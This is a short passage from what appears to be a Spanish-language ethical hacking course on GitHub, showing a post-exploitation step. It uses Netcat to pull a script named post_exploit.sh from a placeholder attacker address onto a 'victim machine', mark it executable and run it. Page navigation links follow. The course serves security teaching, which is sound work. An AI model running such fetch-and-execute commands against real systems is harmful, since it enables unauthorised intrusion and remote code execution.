 ```bash
nc TU-IP 5555 > post_exploit.sh
chmod +x post_exploit.sh
./post_exploit.sh
```

---

#### ✅ Resultado:

- El script `post_exploit.sh` ahora está en la máquina víctima.
- Fue transferido usando solo Netcat.
- No fue necesario acceso a Internet.

---

[🔼](#índice)

---

| **Inicio**         | **atrás 5**                                    | **Siguiente 7**                                            |
| ------------------ | ---------------------------------------------- | ---------------------------------------------------------- |
| [🏠](../README.md) | [⏪](./5_5_Deteccion_y_Evasion_de_defensas.md) | [⏩](./5_7_Hacking_Etico_en_entornos_reales_Amazon_AWS.md) |
